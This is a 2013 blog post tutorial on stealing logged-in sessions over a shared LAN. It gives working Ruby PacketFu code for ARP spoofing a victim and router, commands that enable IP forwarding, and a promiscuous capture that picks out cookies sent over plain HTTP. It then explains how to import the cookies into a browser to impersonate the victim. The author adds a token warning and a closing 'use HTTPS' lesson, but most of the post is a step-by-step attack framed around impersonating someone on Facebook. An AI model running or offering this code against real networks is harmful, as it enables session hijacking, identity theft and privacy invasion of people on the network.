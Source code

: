 ```yaml
---
categories:
- posts
comments: true
date: 2013-08-27T00:00:00Z
excerpt: How to steal a facebook identity. Identity theft in general - a heads up
  on why you should use HTTPS for all sites you have an account on.
featured_image: /images/750px/hack_facebook.jpg
image:
  feature: steal-facebook-identity.jpg
  topPosition: -300px;
keywords:
- identity theft
- facebook
- security
- arp spoofing
share: true
title: How to Steal a Facebook Identity
url: steal-facebook-identity
photos:
    - /images/750px/steal-facebook-identity.jpg
---
```


How to hack cookie based authentication - a.k.a why you should use HTTPS for all sites you have an account on.


*UPDATE: This hack no longer works with Facebook as its https only now. Cool. This technique though can still be applied to other sites.*

So you want to know how to steal someone’s facebook identity. How to impersonate the poor victim. How to post embarrassing status updates, pictures in his/her name. Naughty, aren’t we? Let’s view this as a tech challenge instead, forget the nasty things we could do with it. This howto touches basic online security issues and some networking internals. Prepare for the journey, fasten your seatbelts. 

Guys, first, seriously, this is definitely not a nice thing to do. Really. Don’t do it. Stop reading right now. 

Well, if you still insist… 

Here’s a list of ingredients: 

* A LAN to operate on. It can be your school’s LAN, your workplace or your home router’s network.
* Some basic knowledge about network protocols: ARP, TCP/IP, Ethernet and HTTP
* Ruby skills. Get some. Really. Trust me, it’s worth it!
* A UNIX-based OS. This might work on windows, too, but no guarantees. I use OS X for daily work.
* Patience. Sometimes a lot.

So, let’s get to know the concepts step by step.
## A short intro to ARP

ARP stands for “Address Resolution Protocol” and - well, what do you know - it handles MAC and IP address conversions on a conventional TCP/IP ethernet based network. As you all know, TCP/IP packets are encapsulated in Ethernet packets, and Ethernet only knows those so-called [MAC (Media Access Control)](http://en.wikipedia.org/wiki/MAC_address) addresses, it has no idea about IP addresses or domain names.

When you send a standard TCP/IP packet from your machine, your OS wraps it up in a nice Ethernet packet and asks your network card to kindly send it to the network card which has the destination MAC address (it is much more complicated (routing, etc.) but this is enough for us in this project).

Therefore your OS needs to know which IP address(es) belong to which MAC address. Of course if there’s a router involved (and there must be if you’re on a LAN) it also needs to know this. This table is filled up when ARP messages travel on the network. An ARP announcement or reply message basically says “hey guys, the IP 1.2.3.4 is associated to the mac address 03:f9:06:e4:6b:0b”.

This IP <—-> MAC conversion list is called the ARP table or ARP cache. We are going to ‘poison’ this table. More on this a few paragraphs later.

## A few thoughts on sessions, users and logins

Most sites are using cookies to handle user logins and authentication. HTTP is a statelessprotocol. A stateless protocol does not require the server to retain information or status about each user for the duration of multiple requests. To have some kind of identification, we use cookies. A cookie is a key-value pair stored in the browser (so client-side) with two more extra information: lifetime and access control. With each request, if the cookie is still alive (lifetime) and the access control allows the server to receive the cookie, the client sends the cookie in its headers. You can read more on this [here](http://en.wikipedia.org/wiki/HTTP_cookie). The cookies are first sent by the server (or server application) which this way try to store user-level data, such as login state, userid, etc.

For example, the most interesting cookies coming from facebook are: c_user , datr , sct and xs - they are enough to identify session for a logged in user. When we log in to facebook, these cookies get set and on every request the server knows who we are (and that we are logged in) using these cookies which the browser sends back every time. We will  intercept these cookies travelling on the network from our victom to facebook’s servers.

## How to intercept communication on a LAN

This is actually easier than you’d think, thanks to serious security flaws in the design of the ARP protocol. Well, ARP is old and back then there weren’t so big security concerns.

Basically we’re going to lie to our victim’s machine saying we’re the router, and also lie to the router saying we’re the victim’s machine.

Let’s imagine a network with 3 hosts: 1 router and 2 client ‘user’ machines. The router has the IP 10.0.0.1 and the clients have 10.0.0.100 and 10.0.0.101. We are 10.0.0.100 and our victim is 10.0.0.101.

To achieve this, recall ARP. We send an ARP announcement/reply to the victim’s machine stating that the router’s IP address is associated to our MAC address, thus every TCP/IP package sent to the router by the victim’s machine will actually be sent to us. The other half of the story is that we also send an ARP message to the router saying that the victim’s IP address is associated to our MAC address this way we get the response packages coming from the router to the client. Then all we need to do is read the travelling packages while forwarding them respectively to the router and the client (so that packages really also reach their destination).

Well, we also need to enable something in the OS which is called ‘packet forwarding’ so that packages not targeted to us get accepted and parsed.

In linux, it is a simple
{% codeblock lang:bash %}
echo 1 > /proc/sys/net/ipv4/ip_forward
{% endcodeblock %}

In OS X, it’s a bit different
{% codeblock lang:bash %}
sysctl -w net.inet.ip.forwarding=1
{% endcodeblock %}

 
## Now the stage is set to do some programming.

We will use ruby (1.8 and 1.9 are both good), and we will need the gem called ’PacketFu’ and its dependency PcapRub which is a ruby wrapper to the libpcap library. These will help us with low-level network operations and packet capturing, parsing.

First things first, let’s send out the ARP spoofing packages:

{% codeblock lang:ruby %}
arp_packet_victim = PacketFu::ARPPacket.new()
arp_packet_victim.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_victim.eth_daddr = 'd4:9e:cb:08:5a:27'       # the victim's MAC address
arp_packet_victim.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_victim.arp_daddr_mac = 'd4:9e:cb:08:5a:27'   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = '10.0.0.1'             # the router's IP
arp_packet_victim.arp_daddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply

arp_packet_router = PacketFu::ARPPacket.new()
arp_packet_router.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_router.eth_daddr = '29:ef:54:43:78:32'       # the router's MAC address
arp_packet_router.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_router.arp_daddr_mac = '29:ef:54:43:78:32'   # the router's MAC address
arp_packet_router.arp_saddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_router.arp_daddr_ip = '10.0.0.1'             # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

# we send out both packages
arp_packet_victim.to_w(@interface)
arp_packet_router.to_w(@interface)
 {% endcodeblock %}

Actually in a real-world situation we need to keep sending these packages during the whole capturing session, for example in a thread.

Now we start a capturing session on the designated interface with some default filtering (port: 80 and HTTP requests. See the filter format docs for more info)

{% codeblock lang:ruby %}
capture_session = PacketFu::Capture.new(:iface => 'eth0', :start => true, :promisc => true, :filter => "tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<>2)) != 0)")
{% endcodeblock %}


Now we only need to see if there’s any cookie travelling:
{% codeblock lang:ruby %}
capture_session.stream.each { |packet|
  puts "Woohoo I found a cookie" if packet =~ /ookie/
}
{% endcodeblock %}

 

Nice and easy. We can then parse these cookies and save them in for example netscape cookie format, which we can import  to a browser session with a firefox plugin called Cookie importer.

### So, what is the lesson? Always use HTTPS. Always.

*UPDATE*

I’ve published the code: [https://github.com/ochronus/ArpSpoof](https://github.com/ochronus/ArpSpoof)
